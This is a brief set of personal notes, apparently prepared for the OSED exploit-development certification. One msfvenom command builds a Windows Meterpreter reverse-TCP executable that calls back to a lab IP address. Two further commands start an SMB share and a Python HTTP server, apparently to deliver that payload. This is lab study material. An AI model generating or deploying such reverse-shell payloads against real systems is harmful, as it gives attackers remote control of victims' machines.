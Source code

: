# x86Win-OSED-Notes

met payload:
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

smbserver:
  sudo smbserver.py met /home/kali/ -smb2support

http-server:
  python3 -m http.server

